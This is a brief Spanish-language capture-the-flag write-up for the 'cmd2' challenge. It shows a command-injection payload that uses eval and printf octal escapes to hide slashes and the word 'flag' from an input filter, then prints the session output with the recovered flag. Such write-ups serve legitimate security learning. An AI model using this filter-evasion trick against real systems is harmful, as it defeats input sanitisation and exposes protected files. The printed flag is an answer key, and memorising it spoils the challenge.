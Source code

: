 # cmd2

Estoy seguro de que hay metodos mas limpios de resolver esto pero mi solucion fue esta: 

`eval  $(printf "\57usr\57bin\57cat \57home\57cmd2\57fl%s" "ag")`

El subcomando de `printf` se expande a "/usr/bin/cat /home/cmd2/flag", en un principio intente usar `\x2f` como secuencia de escape para `/` pero fue malinterpretado por el programa asi que usé su equivalente en decimal `\57`

El comando `eval` ejecuta una cadena como comandos de shell dinamicamente

Ambos `printf` y `eval` son comandos "built-in" o internos de la shell por lo que no dependen del PATH
```
cmd2@ubuntu:~$ ./cmd2 'eval  $(printf "\57usr\57bin\57cat \57home\57cmd2\57fl%s" "ag")'
eval  $(printf "\57usr\57bin\57cat \57home\57cmd2\57fl%s" "ag")
Shell_variables_can_be_quite_fun_to_play_with!
```

`Shell_variables_can_be_quite_fun_to_play_with!`
